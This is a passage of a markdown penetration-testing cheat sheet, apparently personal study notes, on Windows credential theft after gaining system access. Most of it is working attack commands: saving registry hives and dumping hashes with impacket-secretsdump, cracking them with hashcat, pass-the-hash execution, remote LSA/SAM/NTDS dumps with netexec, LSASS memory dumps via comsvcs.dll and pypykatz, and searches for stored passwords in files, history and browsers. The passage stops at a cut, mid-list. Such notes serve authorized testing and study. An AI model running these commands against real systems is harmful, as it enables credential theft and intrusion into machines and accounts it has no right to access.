 ## When system

```
> reg save HKLM\SAM sam.save
> reg save HKLM\SECURITY security.save
> reg save HKLM\SYSTEM system.save
> impacket-secretsdump -system system.save -sam sam.save -security security.save local
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: > in creds.txt ou pass the ahash 
...
> hashcat -a 0 -m 1000 ~/creds.txt rockyou.txt 
> impact-smbexe -hashes <xxxx>
```

Dumping LSA/SAM remotely: 
```
> netexec smb aaa.bbb.cc.ddd --local-auth -u USR -p PWD --lsa
> netexec smb aaa.bbb.cc.ddd --local-auth -u USR -p PWD --sam
> netexec smb aaa.bbb.cc.ddd --local-auth -u USR -p PWD --ntdsutil
```

Extracting hash from LSASS memory
 
 - Dump memory from tasklist
 - `rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PId> C:\lsass.dmp full`
 - `pypykatz lsa minidump lsass.dmp`

## File

### File System

 - FAT32
 - NTFS
   * Integrity Control Access Control List (icacls): view permissions, can help identify extra permission allowed to EVERYONE

```
icacls c:\dir
c:\dir NT SERVICE\TrustedInstaller:(F)
       NT SERVICE\TrustedInstaller:(CI)(IO)(F)

(CI): container inherit
(OI): object inherit
(IO): inherit only
(NP): do not propagate inherit
(I): permission inherited from parent container
```
 - `.\SharpUp.exe audit`

### Creds

 - snaffler : `snaffler -s -o result.log -i c:\`
 - Search for a string: `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml unattend.xml`, `select-string -Path *.txt -Pattern password`
 - Search for a file: `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`, `where /R C:\ *.config`, `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`
 - IIS configuration file: C:\inetpub\wwwroot\web.config
 - Chrome dictionnary file: `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password`, [SharpChrome](https://github.com/GhostPack/SharpDPAPI)
 - PowerShell History: `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
 - List stored creds `cmdkey /list`
 - PowerShell Credentials: 